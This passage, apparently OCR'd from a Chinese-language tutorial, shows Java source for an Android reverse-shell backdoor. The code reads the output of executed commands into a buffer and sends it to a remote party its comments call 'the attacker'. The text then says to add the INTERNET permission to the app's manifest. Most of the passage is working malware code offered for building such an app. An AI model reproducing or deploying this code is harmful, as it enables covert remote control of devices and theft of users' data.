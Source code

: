 ```
          //The following lines will take the above output as input and place them in a string buffer.

          BufferedReader reader = new BufferedReader(

           new InputStreamReader(process.getInputStream()));
             int read;
             char[] buffer = new char[4096];
             StringBuffer output = new StringBuffer();
             while ((read = reader.read(buffer)) > 0) {
             output.append(buffer, 0, read);
             }
             reader.close();

            //Converting the output into string
            String commandoutput = output.toString();

            // Waits for the command to finish.
            process.waitFor();

            // if the string output is not null, send it to the attacker using sendOutput method:)

            if (commandoutput != null) {
              //call the method sendOutput

              sendOutput(commandoutput);

            }
            out = null;

            }

          } catch (Exception e) {
            e.printStackTrace();
        }

      }
    };
    thread.start();

  }

  //method to send the final string value of the command output to attacker

    private void sendOutput(String commandoutput) {

     if (out != null && !out.checkError()) {
       out.println(commandoutput);
       out.flush();
     }

    }

}
```******  ******# 注册权限

由于应用正在处理网络连接，我们需要在`AndroidManifest.xml`中添加以下互联网权限：

```
 <uses-permission android:name="android.permission.INTERNET"></uses-permission>
